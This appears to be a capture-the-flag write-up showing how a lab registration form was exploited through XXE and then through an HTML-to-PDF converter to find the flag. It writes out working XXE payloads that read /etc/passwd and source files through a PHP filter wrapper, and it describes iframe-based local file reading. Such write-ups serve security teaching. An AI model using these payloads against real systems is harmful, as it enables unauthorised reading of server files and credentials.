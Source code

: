 # A secret conversation
## Description

> Zero Dollar Security is hiring infosec enthusiast. Apply ASAP. Connect at chall.ctf-ehcon.ml:32104

## Solution

This application just has register function

![Register function](./img/Include%20me/register.png)

Use Burp Suite to intercept the request.
- As we see, body of the request is XML
- The response has the `username` has sent before

--> This might contain XXE vulnerability 

![Register function](./img/Include%20me/register-burp.png)

The first we try to read a file such as `/etc/passwd` 
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [	
        <!ENTITY ext SYSTEM "file:///etc/passwd"> 
    ]>
    <root>
        <email>&ext;</email>
        <password>none</password>
    </root>
```

![XXE](./img/Include%20me/read-file-xxe.png)

That's good, continue reading other files such as `flag.txt`, `flag.php`... but I get nothing.

When I'm trying to list directory, I receive a strange response having a newline character `\n` 

![New hint](./img/Include%20me/read-file-2.png)

Nice, use another method to read or list directory. Because I knew this application use `PHP`, therefore I use PHP wrapper to read file
- File `flag.php` is guessed
	
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [	
        <!ENTITY ext SYSTEM "php://filter/convert.base64-encode/resource=flag.php">  
    ]>
    <root>
        <email>&ext;</email>
        <password>none</password>
    </root>
```

![Read file with PHP wrapper](./img/Include%20me/read-file-base64.png)

Okay good response, take this to base64 decode. Read this code a bit
- It takes param `content` in request using `POST` method
- Put `content` into created file with given `content` 
- Pass 2 file `.html` and `.pdf` to `/var/www/html/files/` 
```php
<?php
if (($_SERVER["REQUEST_METHOD"] ?? 'GET') == 'POST'){
    if(isset($_POST["content"])){
       $file_name=rand(4060,9999).'.html';
        file_put_contents("files/".$file_name,$_POST["content"]);
        passthru("java -Xmx512m -Djava.awt.headless=true -cp /var/www/html/pd4ml_demo.jar Pd4Cmd file:////var/www/html/files/$file_name 800 A4 -out /var/www/html/files/result.pdf");
    }
    else{
	echo "Try harder!!, pal";
	}
}
else{
    echo "Try harder!!!, pal";
}
?>
```
What did I get through this snippet code?
- We can put our payload into a file `html` 
- A new directory `/var/www/html/files/` 

Well, observer new directory a bit

![Files directory](./img/Include%20me/directory-before-post.png)

Now, how can we capture the flag with controlable data HTML? Can we read file or list directory?

We can definately do it with `iframe` tag in HTML
--> LFI with iframe

Replace body of `POST` method from XML to `content`

![POST method](./img/Include%20me/post.png)

My payload:
- Diretory listing of `/` 

![Content param in POST method](./img/Include%20me/content.png)

After send the request, F5 the application we will get new files

![After post](./img/Include%20me/directory-after-post.png)

Nice, check out content of file `result.pdf` 

![List directory in /](./img/Include%20me/list-directory.png)

Where is the flag? Ah, it's in `/ctf/`. List directory in `/ctf/`

![List directory in /ctf/](./img/Include%20me/list-directory-ctf.png)

The flag was captured 🎉🎉

```
Flag is : EHACON{lf1_@nd_xx3_1s_fun}
```